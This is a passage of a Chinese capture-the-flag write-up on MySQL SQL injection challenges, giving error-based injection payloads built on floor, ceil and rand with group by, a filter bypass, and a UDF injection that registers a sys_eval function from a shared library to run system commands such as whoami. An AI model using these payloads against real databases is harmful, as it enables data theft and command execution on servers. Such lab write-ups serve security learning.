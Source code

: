 ![2461](https://the0n3.top/medias/show-sql/2461.png)

报错注入用法

```sql
select count(*),concat(floor(rand(0)*2),database())x from information_schema.character_sets group by x;
```

根据报错，测试有3个字段，因为用了`group by`，聚合函数count一定不能省

![2462](https://the0n3.top/medias/show-sql/2462.png)

修改后又提示返回数据大于1条

在子查询里使用`limit 1,1`限制返回只有1条，接着就可以正常注入了

![2464](https://the0n3.top/medias/show-sql/2464.png)

在爆字段时，如果flag字段没第一个显示出来，通过`limit`往前面`limit 0,1`,往后看`limit 2,1`，`limit 3,1`，直到显示出

![2465](https://the0n3.top/medias/show-sql/2465.png)

## web 247

`floor`过滤了，还有类似`floor`的`ceil`，拿上题的payload换壳接着打

跑酷

```sql
?id=1'union select 1,count(*),concat(ceil(rand(0)*2),database() )x from information_schema.character_sets group by x;%23
```

爆字段，字段名里有一个问号，待会需要使用反引号处理

![247](https://the0n3.top/medias/show-sql/247.png)

爆金币

![2471](https://the0n3.top/medias/show-sql/2471.png)

## web 248 UDF注入

参考：[【Web248(UDF注入）】](https://boogipop.com/2023/03/02/CTFSHOW-SQL%E6%B3%A8%E5%85%A5/#Web248-UDF%E6%B3%A8%E5%85%A5%EF%BC%89)

udf 全称为：user defined function，意为用户自定义函数；用户可以添加自定义的新函数到Mysql中，以达到功能的扩充，调用方式与一般系统自带的函数相同，例如 contact()，user()，version()等函数。

写入位置：/usr/lib/MySQL目录/plugin

用法：
```sql
create function sys_eval returns string soname 'hack.so';
select sys_eval('whoami');
```
